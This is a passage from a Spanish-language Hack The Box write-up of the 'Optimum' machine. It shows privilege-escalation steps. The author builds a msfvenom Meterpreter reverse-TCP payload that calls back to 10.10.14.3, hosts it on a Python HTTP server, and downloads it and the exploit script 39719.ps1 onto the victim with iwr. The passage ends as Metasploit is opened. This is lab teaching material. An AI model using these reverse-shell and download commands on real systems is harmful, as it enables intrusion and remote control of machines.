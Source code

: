 En mi caso descargo el .ps1 aunque también se puede hacer a través de metasploit.

Lo descargo y le echo un vistazo para ver el contenido del mismo.

Veo que está llamando al ejecutable cmd.exe, pero eso no nos sirve, debemos modificar el script añadiendo un archivo malicioso que crearemos con msfvenom.

![](/assets/images/HTB/Optimum-HackTheBox/exploit2.png)

Seguimos estos pasos:

> Creación del archivo malicioso con msfvenom

`` msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.3 lport=1234 -f exe -o malicioso.exe ``

> Subimos el malicioso a la máquina víctima.

Con el servidor python `` python3 -m http.server 8080 ``

Y en la máquina `` iwr -Uri http://10.10.14.3:8080/malicioso.exe -OutFile C:\Users\kostas\Desktop\malicioso.exe ``

> Editamos el script del exploit:

![](/assets/images/HTB/Optimum-HackTheBox/exploit3.png)

> Subimos el exploit a la máquina víctima

Con el servidor python `` python3 -m http.server 8080 ``

Y en la máquina `` iwr -Uri http://10.10.14.3:8080/39719.ps1 -OutFile C:\Users\kostas\Desktop\39719.ps1 ``

> Una vez subido nos abrimos metasploit

![](/assets/images/HTB/Optimum-HackTheBox/metasploit1.png)
